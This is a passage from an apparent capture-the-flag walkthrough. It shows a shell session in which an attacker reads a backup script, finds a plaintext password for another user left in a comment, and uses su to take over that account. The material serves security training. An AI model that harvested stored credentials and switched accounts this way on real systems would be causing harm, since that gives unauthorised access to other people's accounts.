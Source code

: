 ## Using creds of _backup.sh_ file

```bash
basterd@Vulnerable:~$ pwd
pwd
/home/basterd
basterd@Vulnerable:~$ cat backup.sh
cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi	

basterd@Vulnerable:~$ su stoner
su stoner
Password: superduperp@$$no1knows
stoner@Vulnerable:/home/basterd$
```
